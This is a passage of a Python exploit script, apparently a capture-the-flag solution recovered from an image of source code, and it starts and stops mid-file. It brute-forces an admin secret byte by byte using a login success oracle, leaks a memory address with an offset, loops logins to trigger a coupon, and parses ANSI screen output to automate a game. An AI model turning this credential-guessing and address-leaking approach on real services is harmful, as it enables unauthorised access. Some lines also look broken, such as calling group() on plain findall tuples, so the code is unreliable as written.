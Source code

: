 ```python
                continue
            guessbyte = bytes([i])
            login(b'Welcome!', admin_info + guessbyte)
            if b'Success' in r.recvline():
                admin_info = admin_info + guessbyte
                break
        imsi = bytes([len(admin_info) + 0x60])
        logout()
        if len(admin_info) != 0x18:
            jjoin(imsi, imsi, imsi, len(admin_info))
        print(f'{len(admin_info)}: {admin_info}')

    return admin_info[0x10:].decode(), u64(admin_info[0:8]) + 0xd90

def set_login_cnt(cnt, rep_id, rep_pw):
    for i in range(cnt):
        login(rep_id, rep_pw)
        logout()

def get_coupon():
    global r
    jjoin(b'Welcome!', b'1', b'1', 1)
    r.recvuntil(b'issued : ')
    return r.recvuntil(b'\x0d').decode()

def play_game():
    global r
    r.sendlineafter(b'Choice : \r\n', b'2')
    r.recvuntil(b'#' * 0x48)
    ansi_sequence_bytes = r.recvuntil(b'@')
    ansi_sequence = ''.join(f'{byte:02x}' for byte in ansi_sequence_bytes)
    pattern1 = re.compile(r'1b5b(\d+)3b(\d+)48(45|49|4f)')
    pattern2 = re.compile(r'1b5b(\d{2,4})6423((20)*)49')
    matches1 = pattern1.findall(ansi_sequence)
    matches2 = pattern2.findall(ansi_sequence)
    E = []
    I = []
    O = []
    for match in matches1:
        row = replace(int(match[0]))
        col = replace(int(match[1]))
        char_code = match[2]
        if char_code == '45':
            E.append((row, col))
        elif char_code == '49':
            I.append((row, col))
        else:
            O.append((row, col))
    for match in matches2:
        row = replace(int(match.group(1)))
        col = len(match.group(2)) + 1
        I.append((row, col))
    
    if len(I) != 5:
        print('Parsing Error!')
        r.close()
        sys.exit()

    cal_next = {}
    for i in range(4,20):
        cal_next[(i, 0)] = (i+1, 0)
        cal_next[(i+1, 71)] = (i, 71)
    for i in range(1, 71):
```